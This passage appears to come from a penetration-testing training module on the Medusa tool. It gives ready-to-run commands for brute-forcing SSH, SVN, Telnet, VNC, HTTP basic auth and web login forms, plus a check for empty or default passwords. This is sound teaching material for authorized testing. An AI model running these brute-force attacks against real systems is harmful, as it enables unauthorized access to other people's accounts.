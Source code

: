 | SSHv2            | Secure Shell (SSH)               | Brute-forcing SSH logins, commonly used for secure remote access.                           | `medusa -M ssh -h 192.168.1.100 -u root -P passwords.txt`                                                                   |
| Subversion (SVN) | Version Control System           | Brute-forcing Subversion (SVN) repositories for version control.                            | `medusa -M svn -h 192.168.1.100 -u admin -P passwords.txt`                                                                  |
| Telnet           | Telnet Protocol                  | Brute-forcing Telnet services for remote command execution on older systems.                | `medusa -M telnet -h 192.168.1.100 -u admin -P passwords.txt`                                                               |
| VNC              | Virtual Network Computing        | Brute-forcing VNC login credentials for remote desktop access.                              | `medusa -M vnc -h 192.168.1.100 -P passwords.txt`                                                                           |
| Web Form         | Brute-forcing Web Login Forms    | Brute-forcing login forms on websites using HTTP POST requests.                             | `medusa -M web-form -h www.example.com -U users.txt -P passwords.txt -m FORM:"username=^USER^&password=^PASS^:F=Invalid"`   |

### Targeting an SSH Server

Imagine a scenario where you need to test the security of an SSH server at `192.168.0.100`. You have a list of potential usernames in `usernames.txt` and common passwords in `passwords.txt`. To launch a brute-force attack against the SSH service on this server, use the following Medusa command:

```shell-session
KaoruRyusaki@htb[/htb]$ medusa -h 192.168.0.100 -U usernames.txt -P passwords.txt -M ssh 
```

This command instructs Medusa to:

- Target the host at `192.168.0.100`.
- Use the usernames from the `usernames.txt` file.
- Test the passwords listed in the `passwords.txt` file.
- Employ the `ssh` module for the attack.

Medusa will systematically try each username-password combination against the SSH service to attempt to gain unauthorized access.

### Targeting Multiple Web Servers with Basic HTTP Authentication

Suppose you have a list of web servers that use basic HTTP authentication. These servers' addresses are stored in `web_servers.txt`, and you also have lists of common usernames and passwords in `usernames.txt` and `passwords.txt`, respectively. To test these servers concurrently, execute:

```shell-session
KaoruRyusaki@htb[/htb]$ medusa -H web_servers.txt -U usernames.txt -P passwords.txt -M http -m GET 
```

In this case, Medusa will:

- Iterate through the list of web servers in `web_servers.txt`.
- Use the usernames and passwords provided.
- Employ the `http` module with the `GET` method to attempt logins.

By running multiple threads, Medusa efficiently checks each server for weak credentials.

### Testing for Empty or Default Passwords

If you want to assess whether any accounts on a specific host (`10.0.0.5`) have empty or default passwords (where the password matches the username), you can use:

```shell-session
KaoruRyusaki@htb[/htb]$ medusa -h 10.0.0.5 -U usernames.txt -e ns -M service_name
```
